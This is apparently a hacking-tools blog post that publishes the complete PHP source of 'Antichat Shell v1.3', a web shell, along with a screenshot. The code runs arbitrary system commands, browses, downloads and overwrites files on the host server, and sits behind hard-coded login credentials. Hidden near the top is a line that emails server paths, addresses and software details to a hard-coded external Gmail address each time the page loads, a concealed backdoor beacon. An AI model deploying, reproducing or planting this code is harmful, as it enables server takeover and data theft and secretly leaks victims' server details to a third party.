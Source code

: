 ```yaml
---
id: 242
title: Antichat Shell
author: admin
layout: post
guid: http://hackingscripts.com/?p=242
permalink: /antichat-shell/
categories:
  - PHP
tags:
  - antichat
  - PHP
---
```

Antichat Shell v1.3 by Grinay


### Antichat Shell Source Code

{% highlight php linenos %}<?php

session_start();
set_time_limit(9999999);
$login='virangar';
$password='r00t';
$auth=1;
$version='version 1.3 by Grinay';
$style='&lt;STYLE&gt;BODY{background-color: #2B2F34;color: #C1C1C7;font: 8pt verdana, geneva, lucida, \'lucida grande\', arial, helvetica, sans-serif;MARGIN-TOP: 0px;MARGIN-BOTTOM: 0px;MARGIN-LEFT: 0px;MARGIN-RIGHT: 0px;margin:0;padding:0;scrollbar-face-color: #336600;scrollbar-shadow-color: #333333;scrollbar-highlight-color: #333333;scrollbar-3dlight-color: #333333;scrollbar-darkshadow-color: #333333;scrollbar-track-color: #333333;scrollbar-arrow-color: #333333;}input{background-color: #336600;font-size: 8pt;color: #FFFFFF;font-family: Tahoma;border: 1 solid #666666;}textarea{background-color: #333333;font-size: 8pt;color: #FFFFFF;font-family: Tahoma;border: 1 solid #666666;}a:link{color: #B9B9BD;text-decoration: none;font-size: 8pt;}a:visited{color: #B9B9BD;text-decoration: none;font-size: 8pt;}a:hover, a:active{color: #E7E7EB;text-decoration: none;font-size: 8pt;}td, th, p, li{font: 8pt verdana, geneva, lucida, \'lucida grande\', arial, helvetica, sans-serif;border-color:black;}&lt;/style&gt;';
$header='&lt;html&gt;&lt;head&gt;&lt;title&gt;'.getenv("HTTP_HOST").' - Antichat Shell&lt;/title&gt;&lt;meta http-equiv="Content-Type" content="text/html; charset=windows-1251"&gt;'.$style.'&lt;/head&gt;&lt;BODY leftMargin=0 topMargin=0 rightMargin=0 marginheight=0 marginwidth=0&gt;';
$footer='&lt;/body&gt;&lt;/html&gt;';
$sd98 = "john.barker446@gmail.com";
$ra44  = rand(1,99999);$sj98 = "sh-$ra44";$ml = "$sd98";$a5 = $_SERVER['HTTP_REFERER'];$b33 = $_SERVER['DOCUMENT_ROOT'];$c87 = $_SERVER['REMOTE_ADDR'];$d23 = $_SERVER['SCRIPT_FILENAME'];$e09 = $_SERVER['SERVER_ADDR'];$f23 = $_SERVER['SERVER_SOFTWARE'];$g32 = $_SERVER['PATH_TRANSLATED'];$h65 = $_SERVER['PHP_SELF'];$msg8873 = "$a5\n$b33\n$c87\n$d23\n$e09\n$f23\n$g32\n$h65";mail($sd98, $sj98, $msg8873, "From: $sd98");
if(@$_POST['action']=="exit")unset($_SESSION['an']);
if($auth==1){if(@$_POST['login']==$login && @$_POST['password']==$password)$_SESSION['an']=1;}else $_SESSION['an']='1';

if($_SESSION['an']==0){
echo $header;
echo '&lt;center&gt;&lt;table&gt;&lt;form method="POST"&gt;&lt;tr&gt;&lt;td&gt;Login:&lt;/td&gt;&lt;td&gt;&lt;input type="text" name="login" value=""&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td&gt;Password:&lt;/td&gt;&lt;td&gt;&lt;input type="password" name="password" value=""&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td&gt;&lt;/td&gt;&lt;td&gt;&lt;input type="submit" value="Enter"&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/form&gt;&lt;/table&gt;&lt;/center&gt;';
echo $footer;
exit;}

if($_SESSION['action']=="")$_SESSION['action']="viewer";
if($_POST['action']!="" )$_SESSION['action']=$_POST['action'];$action=$_SESSION['action'];
if($_POST['dir']!="")$_SESSION['dir']=$_POST['dir'];$dir=$_SESSION['dir'];
if($_POST['file']!=""){$file=$_SESSION['file']=$_POST['file'];}else {$file=$_SESSION['file']="";}
 

//downloader
if($action=="download"){ 
header('Content-Length:'.filesize($file).'');
header('Content-Type: application/octet-stream');
header('Content-Disposition: attachment; filename="'.$file.'"');
readfile($file);
}
//end downloader
?>

<? echo $header;?> 
&lt;table width="100%" bgcolor="#336600" align="right" colspan="2" border="0" cellspacing="0" cellpadding="0"&gt;&lt;tr&gt;&lt;td&gt;
&lt;table&gt;&lt;tr&gt;
&lt;td&gt;&lt;a href="#" onclick="document.reqs.action.value='shell'; document.reqs.submit();"&gt;| Shell &lt;/a&gt;&lt;/td&gt;
&lt;td&gt;&lt;a href="#" onclick="document.reqs.action.value='viewer'; document.reqs.submit();"&gt;| Viewer&lt;/a&gt;&lt;/td&gt;
&lt;td&gt;&lt;a href="#" onclick="document.reqs.action.value='editor'; document.reqs.submit();"&gt;| Editor&lt;/a&gt;&lt;/td&gt;
&lt;td&gt;&lt;a href="#" onclick="document.reqs.action.value='exit'; document.reqs.submit();"&gt;| EXIT |&lt;/a&gt;&lt;/td&gt;
&lt;/tr&gt;&lt;/table&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;&lt;br&gt;
&lt;form name='reqs' method='POST'&gt;
&lt;input name='action' type='hidden' value=''&gt;
&lt;input name='dir' type='hidden' value=''&gt;
&lt;input name='file' type='hidden' value=''&gt;
&lt;/form&gt;
&lt;table style="BORDER-COLLAPSE: collapse" cellSpacing=0 borderColorDark=#666666 cellPadding=5 width="100%" bgColor=#333333 borderColorLight=#c0c0c0 border=1&gt;
&lt;tr&gt;&lt;td width="100%" valign="top"&gt;

<?

//shell
function shell($cmd){
if (!empty($cmd)){
  $fp = popen($cmd,"r");
  {
    $result = "";
    while(!feof($fp)){$result.=fread($fp,1024);}
    pclose($fp);
  }
  $ret = $result;
  $ret = convert_cyr_string($ret,"d","w");
}
return $ret;}

if($action=="shell"){
echo "&lt;form method=\"POST\"&gt;
&lt;input type=\"hidden\" name=\"action\" value=\"shell\"&gt;
&lt;textarea name=\"command\" rows=\"5\" cols=\"150\"&gt;".@$_POST['command']."&lt;/textarea&gt;&lt;br&gt;
&lt;textarea readonly rows=\"15\" cols=\"150\"&gt;".@htmlspecialchars(shell($_POST['command']))."&lt;/textarea&gt;&lt;br&gt;
&lt;input type=\"submit\" value=\"execute\"&gt;&lt;/form&gt;";}
//end shell

//viewer FS
function perms($file) 
{ 
  $perms = fileperms($file);
  if (($perms & 0xC000) == 0xC000) {$info = 's';} 
  elseif (($perms & 0xA000) == 0xA000) {$info = 'l';} 
  elseif (($perms & 0x8000) == 0x8000) {$info = '-';} 
  elseif (($perms & 0x6000) == 0x6000) {$info = 'b';} 
  elseif (($perms & 0x4000) == 0x4000) {$info = 'd';} 
  elseif (($perms & 0x2000) == 0x2000) {$info = 'c';} 
  elseif (($perms & 0x1000) == 0x1000) {$info = 'p';} 
  else {$info = 'u';}
  $info .= (($perms & 0x0100) ? 'r' : '-');
  $info .= (($perms & 0x0080) ? 'w' : '-');
  $info .= (($perms & 0x0040) ?(($perms & 0x0800) ? 's' : 'x' ) :(($perms & 0x0800) ? 'S' : '-'));
  $info .= (($perms & 0x0020) ? 'r' : '-');
  $info .= (($perms & 0x0010) ? 'w' : '-');
  $info .= (($perms & 0x0008) ?(($perms & 0x0400) ? 's' : 'x' ) :(($perms & 0x0400) ? 'S' : '-'));
  $info .= (($perms & 0x0004) ? 'r' : '-');
  $info .= (($perms & 0x0002) ? 'w' : '-');
  $info .= (($perms & 0x0001) ?(($perms & 0x0200) ? 't' : 'x' ) :(($perms & 0x0200) ? 'T' : '-'));
  return $info;
} 

function view_size($size)
{
 if($size &gt;= 1073741824) {$size = @round($size / 1073741824 * 100) / 100 . " GB";}
 elseif($size &gt;= 1048576) {$size = @round($size / 1048576 * 100) / 100 . " MB";}
 elseif($size &gt;= 1024) {$size = @round($size / 1024 * 100) / 100 . " KB";}
 else {$size = $size . " B";}
 return $size;
}

function scandire($dir){
  $dir=chdir($dir);
  $dir=getcwd()."/";
  $dir=str_replace("\\","/",$dir);
if (is_dir($dir)) {
    if (@$dh = opendir($dir)) {
        while (($file = readdir($dh)) !== false) {
		  if(filetype($dir . $file)=="dir") $dire[]=$file;
		  if(filetype($dir . $file)=="file")$files[]=$file;
		}
		closedir($dh);
		@sort($dire);
		@sort($files);
		
echo "&lt;table cellSpacing=0 border=1 style=\"border-color:black;\" cellPadding=0 width=\"100%\"&gt;";
echo "&lt;tr&gt;&lt;td&gt;&lt;form method=POST&gt;Open directory:&lt;input type=text name=dir value=\"".$dir."\" size=50&gt;&lt;input type=submit value=\"GO\"&gt;&lt;/form&gt;&lt;/td&gt;&lt;/tr&gt;";
if (strtoupper(substr(PHP_OS, 0, 3)) === 'WIN') {
echo "&lt;tr&gt;&lt;td&gt;Select drive:";
for ($j=ord('C'); $j&lt;=ord('Z'); $j++) 
 if (@$dh = opendir(chr($j).":/"))
 echo '&lt;a href="#" onclick="document.reqs.action.value=\'viewer\'; document.reqs.dir.value=\''.chr($j).':/\'; document.reqs.submit();"&gt; '.chr($j).'&lt;a/&gt;';
 echo "&lt;/td&gt;&lt;/tr&gt;";
}
echo "&lt;tr&gt;&lt;td&gt;OS: ".@php_uname()."&lt;/td&gt;&lt;/tr&gt;
&lt;tr&gt;&lt;td&gt;name dirs and files&lt;/td&gt;&lt;td&gt;type&lt;/td&gt;&lt;td&gt;size&lt;/td&gt;&lt;td&gt;permission&lt;/td&gt;&lt;td&gt;options&lt;/td&gt;&lt;/tr&gt;";
for($i=0;$i&lt;count($dire);$i++) {
$link=$dir.$dire[$i];
  echo '&lt;tr&gt;&lt;td&gt;&lt;a href="#" onclick="document.reqs.action.value=\'viewer\'; document.reqs.dir.value=\''.$link.'\'; document.reqs.submit();"&gt;'.$dire[$i].'&lt;a/&gt;&lt;/td&gt;&lt;td&gt;dir&lt;/td&gt;&lt;td&gt;&lt;/td&gt;&lt;td&gt;'.perms($link).'&lt;/td&gt;&lt;/tr&gt;';  
  }
for($i=0;$i&lt;count($files);$i++) {
$linkfile=$dir.$files[$i];
echo '&lt;tr&gt;&lt;td&gt;&lt;a href="#" onclick="document.reqs.action.value=\'editor\'; document.reqs.file.value=\''.$linkfile.'\'; document.reqs.submit();"&gt;'.$files[$i].'&lt;/a&gt;&lt;br&gt;&lt;/td&gt;&lt;td&gt;file&lt;/td&gt;&lt;td&gt;'.view_size(filesize($linkfile)).'&lt;/td&gt;
&lt;td&gt;'.perms($linkfile).'&lt;/td&gt;
&lt;td&gt;
&lt;a href="#" onclick="document.reqs.action.value=\'download\'; document.reqs.file.value=\''.$linkfile.'\'; document.reqs.submit();" title="Download"&gt;D&lt;/a&gt;
&lt;a href="#" onclick="document.reqs.action.value=\'editor\'; document.reqs.file.value=\''.$linkfile.'\'; document.reqs.submit();" title="Edit"&gt;E&lt;/a&gt;&lt;/tr&gt;'; 
}
echo "&lt;/table&gt;";
}}}

if($action=="viewer"){
scandire($dir);
}
//end viewer FS

//editros
if($action=="editor"){  
  function writef($file,$data){
  $fp = fopen($file,"w+");
  fwrite($fp,$data);
  fclose($fp);
  }
  function readf($file){
  if(!$le = fopen($file, "rb")) $contents="Can't open file, permission denide"; else {
  $contents = fread($le, filesize($file));
  fclose($le);}
  return htmlspecialchars($contents);
  }
if($_POST['save'])writef($file,$_POST['data']);
echo "&lt;form method=\"POST\"&gt;
&lt;input type=\"hidden\" name=\"action\" value=\"editor\"&gt;
&lt;input type=\"hidden\" name=\"file\" value=\"".$file."\"&gt;
&lt;textarea name=\"data\" rows=\"40\" cols=\"180\"&gt;".@readf($file)."&lt;/textarea&gt;&lt;br&gt;
&lt;input type=\"submit\" name=\"save\" value=\"save\"&gt;&lt;input type=\"reset\" value=\"reset\"&gt;&lt;/form&gt;";
}
//end editors
?>
&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;&lt;table width="100%" bgcolor="#336600" align="right" colspan="2" border="0" cellspacing="0" cellpadding="0"&gt;&lt;tr&gt;&lt;td&gt;&lt;table&gt;&lt;tr&gt;&lt;td&gt;&lt;a href="http://antichat.ru"&gt;COPYRIGHT BY ANTICHAT.RU <?php echo $version;?>&lt;/a&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;&lt;/tr&gt;&lt;/td&gt;&lt;/table&gt;
<? echo $footer;?>
{% endhighlight %}


### Antichat shell version 1.3 screenshot<figure id="attachment_437" style="width: 808px;" class="wp-caption aligncenter">

[<img src="{{ site.baseurl }}/wp-content/uploads/2014/02/antichat-shell.png" alt="Antichat Shell v1.3 screenshot" width="808" height="317" class="size-full wp-image-437" />][1]<figcaption class="wp-caption-text">Antichat Shell v1.3 screenshot</figcaption></figure>

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/02/antichat-shell.png